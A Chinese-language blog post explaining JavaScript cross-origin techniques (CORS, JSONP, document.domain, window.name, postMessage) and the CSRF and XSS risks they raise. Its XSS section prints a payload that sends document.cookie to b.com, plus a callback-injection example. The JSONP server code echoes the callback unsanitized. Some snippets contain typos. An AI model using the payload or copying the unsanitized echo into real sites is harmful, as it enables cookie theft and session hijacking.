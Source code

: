 ```yaml
---
layout: post
title: 浅谈js跨域问题
date: 2015-09-23
author: "Jenny"
tags: [javascript,xss,csrf,跨域]
---
```


所谓跨域，或者异源，是指主机名（域名）、协议、端口号只要有其一不同，就为不同的域（或源）。浏览器中有一个基本的策略，叫同源策略，即限制“源”自A的脚本只能操作“同源”页面的DOM。

先聊一下w3c的***CORS规范***：
CORS旨在定义一种规范让浏览器在接收到从提供者获取资源时能够决定是否应该将此资源分发给消费者作进一步处理。
具体如下：
（1）消费者发送一个Origin报头到提供者端：`Origin: http://www.a.com`；
（2）提供者发送一个Access-Control-Allow-Origin响应报头给消费者，如果值为*或Origin对应的站点，则表示同意共享资源给消费者，如果值为null或者不存在Access-Control-Allow-Origin报头，则表示不同意共享资源给消费者；
（3）浏览器根据提供者的响应报文判断是否允许消费者跨域访问到提供者源。

要解决跨域的问题，有以下几种方法：
### 1、通过Jsonp跨域
对于一段JavaScript脚本来说，其“源”与它存储的地址无关，而取决于脚本被加载的页面，例如我们在页面中使用<script>引入存储在其他域的脚本文件：
`<script src="http://www.a.com/index.js"></script>`
这里脚本与当前页面是同源的。除了<script>，还有<img>、<iframe>、<link>等都具有跨域加载资源的能力。
Jsonp正是利用这种特性来实现跨域的：在页面中引入要跨域访问的来源，并定义回调函数处理跨域访问得到的json数据。如：
```
<script>
function handleData(data) {
    //处理数据
}
</script>
<script src="http://www.a.com/getData.do?callback=handleData"></script>
```
也可以使用jquery封装的方法，如$.ajax:
```
<script>
function hadnleData(data) {
    //处理数据
}
$.ajax({
    url: 'http://www.a.com/getData.do?callback=?',
    type: "GET",
    dataType: "jsonp",
    jsonpCallback: "handleData"
});
</script>
```
当然还需要服务端配合处理：

```
String handleData = request.getParameter("callback");//客户端的回调函数
out.println(handleData+"("+resultJSON+")");//返回jsonp格式数据
```
### 2、修改document.domain来跨子域
www.a.com/1.html和a.com/2.html是不同域的，要使他们可以跨域访问，可通过修改document.domain来实现，即在两个页面中都设置：
`document.domain="a.com";`
需要注意的是document.domain只能往父级修改，如a.com改为www.a.com是不被允许的，这也是此方法的局限性，只使用于跨子域访问。
### 3、使用window.name来跨域访问
window.name是同一浏览器窗口下载入的所有页面共享的数据字段，所有窗口都可以读写此字段的内容。所以假设a.com要访问b.com的数据，只需要在b.com中将数据放在window.name中，然后a.com从中取出即可。此方法适用于像iframe这样的嵌套页面架构。
### 4、使用HTML5的window.postMessage方法:
假设要在a.com和b.com页面之间传递数据：
```
//a.com页面
window.postMesssage(JSON.stringify({xxx:'test'},'b.com');
//b.com页面
window.onMessage=function(e){
    var data = JSON.parse(e.data);
    console.log(data); //{xxx:'test'}
}
```

下面谈一下跨域访问的一些安全性问题，主要是CSRF和XSS攻击问题。
### 一、CSRF/XSRF攻击
网上找到一个大神发的图，贴在这里观摩观摩：
![](/img/cross-domain/1.png)

其实就是危险网站B在自己网站上贴了网站A的某个接口链接（a标签或form提交是支持跨域的），引导用户点击（骗取用户cookie）去访问网站A，祸因在于用户登录了A在不注销的情况下登录了B。解决方法有很多，如验证码，表单附加随机数等，原理基本都是校验登录方的请求令牌。
如果使用跨域访问可以更简单的进行CSRF攻击（当然也有相应的防范措施），当某网站通过JSONP方式来跨域传递用户认证后的敏感信息时，攻击者可以构造恶意的JSONP调用页面，诱导被攻击者访问来达到截取用户敏感信息的目的。（这里有一个微博股吧CSRF攻击的[例子][1]）
目前比较好的防止CSRF攻击的方法是***referer过滤校验+token验证***，即服务端检测JSON文件调用来源和检查token数据是否匹配。
### 二、XSS攻击（XSS注入）
此攻击方法类似sql注入，即提交含有恶意脚本的数据到服务器，从而达到破坏页面甚至盗取cookie伪装登录等目的。例如，在a.com/index.ftl中有如下代码：`欢迎你，${username}`，这时恶意网站b.com传递参数：
`username=<script>window.open(“www.b.com?param=”+document.cookie)</script>`
这样就轻而易举地盗取了用户的cookie值了。
在jsonp跨域访问中，xss注入主要是callback参数注入，如：
`<script src="http://www.a.com/getData.do?callback=<script>alert('xss');</script>"></script>`
防止措施是对参数进行校验过滤。
